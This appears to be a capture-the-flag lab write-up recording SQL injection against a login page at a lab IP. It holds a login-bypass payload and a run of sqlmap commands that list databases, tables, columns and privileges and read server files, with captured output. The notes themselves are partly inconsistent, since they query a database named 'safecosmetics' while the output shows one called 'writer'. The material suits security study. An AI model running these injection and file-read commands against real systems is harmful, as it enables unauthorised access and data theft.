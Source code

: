 ## database 
good article for sqlmap https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/
## actually it was sql injection
```bash
admin'  or 1=1 or ''='
```
## show databases
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --dbs --batch
```

```bash
available databases [2]:
[*] information_schema
[*] writer

```
## show tables of particular database
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --tables -D safecosmetics
```

```bash
Database: writer
[3 tables]
+---------+
| site    |
| stories |
| users   |
+---------+

```
## show columns of table
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --columns -D safecosmetics -T users
```

## show current user
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch --current-user
```

## privilegies
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch  --privileges
```

```bash
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE

```
## file read
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --batch --file-read /
```